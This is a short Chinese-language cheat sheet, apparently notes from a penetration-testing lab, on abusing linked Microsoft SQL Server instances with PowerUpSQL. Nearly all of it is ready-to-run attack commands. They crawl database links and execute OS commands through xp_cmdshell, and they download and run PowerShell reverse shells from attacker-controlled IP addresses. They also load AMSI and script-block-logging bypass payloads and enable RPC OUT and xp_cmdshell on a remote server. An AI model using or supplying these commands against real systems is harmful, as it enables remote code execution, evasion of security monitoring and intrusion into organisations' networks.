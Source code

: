 ## 查看指定链接的信息
```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

## 自动爬取数据库链接
```
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

## 对指定链接执行系统命令
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

## 执行系统命令，返回一个rev shell

简单版本
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1'')"'
```

绕过AMSI
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```

指定在db-sqlsrv上操作
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```


## 启用RPC OUT和xp_cmdshell

```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```
